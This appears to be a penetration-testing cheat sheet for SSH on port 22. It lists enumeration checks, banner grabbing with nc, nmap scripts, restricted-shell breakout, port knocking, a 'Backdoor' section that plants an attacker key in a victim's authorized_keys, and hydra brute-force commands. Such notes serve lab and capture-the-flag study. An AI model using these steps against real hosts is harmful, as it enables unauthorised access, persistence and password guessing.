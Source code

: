 # 22 (SSH)

## Enumeration

### Checks

* [ ] Try easy username-password combinations
* [ ] Check for username enumeration vulnerabilities
* [ ] Check version for vulnerabilities
* [ ] Attempt brute forcing
* [ ] Check for Port Knocking

### Banner Grabbing

```bash
nc <IP> 22
nc -vn <IP> 22
```

### Connections

#### SSH

```bash
ssh <username>@<IP>
ssh <username>@<IP> -i id_rsa  # Login via private key. chmod 600
```

#### SCP

```bash
scp <filename> <username>@<IP>:/path/to/copy
```

#### SFTP

```bash
sftp <IP>
```

### nmap Scripts

```bash
nmap -p 22000 -sV -Pn -T4 --script=ssh* <IP>
```

### Restricted Shell Breakout

```bash
ssh joe@funbox -i joe_id_rsa -t "bash --noprofile"
ssh seppuku@192.168.53.90 -t "bash --noprofile"
```

### Account Login Error

```bash
# When getting a specific error where only SFTP works, try...
ssh -v <username>@<IP> id
ssh -v <username>@<IP> /bin/bash
```

### Port knocking

```bash
# If nmap comes back showing port 22 as filtered...
# We need to find the /etc/knockd.conf (thorough LFI or FTP or something else)
# Inside there is a sequence
knock IP SEQUENCE1 SEQUENCE2 SEQUENCE3
# Check nmap again
```

### Key Generation

```bash
# Attack machine
ssh-keygen
chmod 600
cat <filename>.pub
# Target
echp <filename>.pub >> <PATH>/.ssh/authorized_keys
```

## Backdoor

```bash
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

## Brute Force

```bash
hydra -v  -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 <IP> ssh
hydra -l <username> -P passwords.txt -T 20 <IP> ssh
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```
